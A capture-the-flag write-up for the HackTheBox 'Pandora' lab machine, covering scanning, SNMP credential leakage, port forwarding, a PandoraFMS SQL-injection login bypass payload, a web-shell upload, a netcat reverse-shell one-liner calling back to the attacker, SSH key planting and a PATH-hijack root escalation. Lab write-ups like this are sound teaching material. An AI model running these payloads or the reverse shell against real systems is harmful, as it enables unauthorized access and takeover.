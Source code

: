 ```yaml
---
title: "HackTheBox - Pandora"
date: 2023-05-28 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


![LOGO](../assets/img/Pandora/Pandora.png)

## Description
The box is available [here](https://app.hackthebox.com/machines/Pandora) if you want to try before read this write-up !

 - OS : Linux
 - Release date : 08 january 2022
 - Difficulty : easy
 - Points : 20
 - IP Adress : ```10.10.11.136```

Pandora is a nice box for beginner and interesting to learn new tools.

## Foothold
### Scanning The Box :
So first, we gonna scan the IP adress with the popular tool **Nmap** with the command :
```markdown
nmap 10.10.11.136 -sC -sV -p-
```

We have the following result :
```markdown
# Nmap 7.91 scan initiated Sun Feb 20 21:02:20 2022 as: nmap -p- -sC -sV -oA scan_nmap 10.10.11.136
Nmap scan report for Pandora.htb (10.10.11.136)
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 20 21:02:42 2022 -- 1 IP address (1 host up) scanned in 21.80 seconds
```
We can see there is two open ports : *HTTP* (80) and *SSH* (22).

The SSH version seems not be vulnerable to a CVE, so we gonna check the website with **Nikto** and **Gobuster**.
```markdown
nikto -h 10.10.11.136
gobuster dir --url http://10.10.11.136 -w /usr/share/wordlist/dirb/big.txt -x html,php,txt,xml,bak,zip
```

We have find some infos and files but nothing interesting.

I try to re-check my scan with **Nmap** but here, I made a *UPD-Scan* :
```markdown
nmap 10.10.11.136 -sU
```
Now, we have a new port, a UDP-port :
```markdown
161/udp open|filtered snmp   SNMPv1 server; net-snmp SNMPv3 server (public)
```
SNMP is short of *Simple Network Management Protocol*. The explaination can be find [here](https://www.manageengine.com/fr/network-monitoring/what-is-snmp.html)

### Interaction with the SNMP server : 
Here we use *snmp-check*, a tool already installed in Kali-linux.
The syntax is simple: 
```markdown
snmp-check -p 161 10.10.11.136
```
After do this, we have got a long output and when we read it, we can see this interesting line:
```markdown
850                   runnable              sh                    /bin/sh               -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
```
There is a process which use credentials of the user *Daniel* !

So we can use *SSH* now !

## User Flag
First, we check the other users present in the box. There is another user who call *Matt*.
```markdown
cat /etc/paswd | grep /bin/bash
```
```markdown
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
We have no flag in our account so the user flag is in *Matt*'s account.
### Analyse the box 
We need to upgrade our lower access to a higher access to become *Matt*.

We can check the *SUID* files:
```markdown
find / -type f -perm /6000 -ls 2>/dev/null
```
We can do a ```sudo -l``` or a ```cat /etc/crontab``` too but we have nothing interesting.

We can use a popular automated tool which call [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) to check all the misconfigurations present.
But with LinPEAS, we found nothing.

We read the hosts file.
```markdown
cat /etc/hosts
127.0.0.1       localhost
```

We try to cURL the localhost with ````curl 127.0.0.1```` and there is a website made with [*PandoraFMS*](https://pandorafms.com).

### Access to the site

So we have access to the site in local only. It is the best moment to introduce the tool [**Chisel**](https://github.com/jpillora/chisel).

**Chisel** is using for port fowarding, so here, we use it to forward the local website to our machine. After upload the binary, we use the following commands:

In our machine:
```markdown
./chisel server -p 8888 -reverse
```

In *Daniel*'s machine:
```markdown
./chisel client {YOUR_IP}:8888 R:8889:localhost:80
```

Now, go in our web browser and we have access to the site.

![alt text](../assets/img/Pandora/web_pandora.jpg)

As you see, there is a login/password page. We test admin/admin ; admin/password but no result.

In the bottom, there is the version of *PandoraFMS* : ````v7.0NG.742````. Go check if there is a exploit for this version and when we search a little, we found 
a *bypass authentification* with a [Youtube Video](https://youtu.be/61KE45V7VT8). The bypass works with a *SQL injection*. Now, we are admin of the website. 

The exploit is:
```markdown
include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

### Become Matt
We need a shell as *Matt*, so we gonna upload a reverse shell in the extensions part. We can't directly upload a php file but we can bypass this with a ```.zip``` file which content our shell. 

![alt text](../assets/img/Pandora/upload_zip.png)

Now, go in ````http://localhost:8889/pandora_console/extensions/{YOUR_PAYLOAD}.php````. Here, it is a web shell because a try a reverse shell but it didn't work. After, in my web shell, I put a reverse shell with ````rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR_IP} 1234 >/tmp/f```` and it worked. We are *Matt* !

![alt text](../assets/img/Pandora/id_matt.png)

To have a better shell, put your public *SSH* key in the ````/home/matt/.ssh/authorized_keys````. Then connect with:
```markdown
ssh -i {YOUR_PRIVATE_KEY} matt@10.10.11.136
```
And you will be in *SSH*.

![alt text](../assets/img/Pandora/id_rsa_matt.png)

## Privilege Escalation
The last step of the challenge is easy. Just made a basic enumeration and you will find a *SUID* file which call ````/usr/bin/pandora_backup````.

If we make a ````cat````, we see that the binary execute **tar**. 

To exploit this, it is really simple:
 - go in ````/tmp```` and create a file contain ````/bin/bash````. 
 - rename the file as ````tar````.
 - change the permissions 
 - export the *$PATH*

So let's do this:
```markdown
cd /tmp
echo '/bin/bash' > tar
chmod 777 tar
export PATH=/tmp:$PATH
```

When we execute the binary: 

![alt text](../assets/img/Pandora/id_root.png)

BOOM ! We are ROOT !

*Note: It really important to run this in SSH beause when I tried in a 'bad shell', it didn't work.*

## Conclusion
This box was really fun and good for the beginners because you can learn notion as *Port Forwarding*, *Privilege Escalation* and *UDP Scan*. I recommend this box, 5 stars.

Thanks for reading ! :) 
